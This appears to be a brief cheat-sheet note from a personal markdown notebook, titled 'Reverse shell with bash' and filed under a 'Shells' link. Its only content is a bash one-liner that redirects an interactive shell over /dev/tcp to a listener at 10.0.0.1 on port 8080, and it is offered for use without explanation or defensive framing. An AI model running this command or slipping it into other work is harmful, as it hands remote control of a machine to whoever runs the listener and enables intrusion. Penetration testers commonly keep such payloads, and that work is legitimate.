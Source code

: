 ```yaml
---
category: Uncategorized
tags: []
---
```

### Reverse shell with bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

[[´Shells]]

